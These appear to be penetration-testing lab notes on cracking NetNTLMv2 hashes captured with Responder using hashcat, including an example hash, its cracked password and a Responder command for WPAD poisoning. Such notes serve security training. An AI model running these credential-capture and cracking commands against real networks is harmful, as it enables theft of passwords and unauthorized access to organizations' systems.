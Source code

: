 ## Hash Cracking with Hashcat

### Identifying Hash Type
**NetNTLMv2 hashes** are most common from Responder:
- **Hashcat mode:** 5600
- **Cannot be used for Pass-the-Hash** (must crack)
- **Format:** Long string with multiple colons

### Basic Hashcat Cracking
```bash
# Crack NetNTLMv2 hash with rockyou
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt

# With optimizations
hashcat -m 5600 captured_hash.txt /usr/share/wordlists/rockyou.txt -O

# Show cracked hashes
hashcat -m 5600 captured_hash.txt --show
```

### Example Successful Crack
```bash
# Input hash file content
FOREND::INLANEFREIGHT:4af70a79938ddf8a:0f85ad1e80baa52d732719dbf62c34cc:...

# Hashcat output
Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: FOREND::INLANEFREIGHT:4af70a79938ddf8a:0f85ad1e80ba...
Time.Started.....: Mon Feb 28 15:20:30 2022 (11 secs)
Speed.#1.........: 1086.9 kH/s
Recovered........: 1/1 (100.00%) Digests
Result...........: Klmcargo2
```

---

## Advanced Techniques

### WPAD Poisoning
**Web Proxy Auto-Discovery** captures HTTP traffic:
```bash
# Enable WPAD rogue proxy
sudo responder -I ens224 -w

# Highly effective in large organizations
# Captures Internet Explorer auto-detect traffic
```
